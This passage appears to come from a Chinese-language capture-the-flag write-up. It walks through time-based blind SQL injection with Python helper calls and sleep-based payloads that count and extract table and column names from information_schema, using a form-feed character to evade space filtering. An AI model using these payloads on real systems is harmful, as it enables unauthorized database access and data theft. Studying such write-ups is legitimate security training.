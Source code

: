 得到数据库名为 `wfy`.

再求表个数：

```python
# 求表个数
table_count = test_int(1,10,"if((select(count(table_name))from(information_schema.tables)where(table_schema=database()))={},sleep(5),1)")
```

得到表的个数为 `3`.

获取表名：

```python
table_name = []
for i in range(0, table_count):
    # 查找表i名称的长度
    len = test_int(
        1, 30,
        "if((select(length(table_name))from(information_schema.tables)where(table_schema=database())limit\x0C"+str(i)+",1)={},sleep(1),1)")
    if len==None:
            continue
    # 查找表i的名称
    table_name.append(loop_str(
        1, len+1,
        "if(substr((select(table_name)from(information_schema.tables)where(table_schema=database())limit\x0C"+str(i)+",1),{},1)='{}',sleep(1),1)",
        log_result=True, log=True))
print(table_name)
```

输出结果即为表名：

```python
['wfy_admin', 'wfy_comments', 'wfy_information']
```

猜想 `wfy_comments` 为储存具体数据的表。查找其列名：

```python
column_name = []
column_num = test_int(
    0, 10, "if((select(count(column_name))from(information_schema.columns)where(table_name='wfy_comments'))={},sleep(1),1)")
for i in range(0, column_num):
    # 查找列i名称的长度
    len = test_int(
        1, 30,
        "if((select(length(column_name))from(information_schema.columns)where(table_name='wfy_comments')limit\x0C"+str(i)+",1)={},sleep(1),1)")
    if len == None:
        continue
    # 查找列i的名称
    column_name.append(loop_str(
        1, len+1,
        "if(substr((select(column_name)from(information_schema.columns)where(table_name='wfy_comments')limit\x0C" +
        str(i)+",1),{},1)='{}',sleep(1),1)",
        log_result=True, log=True))
print(column_name)
```
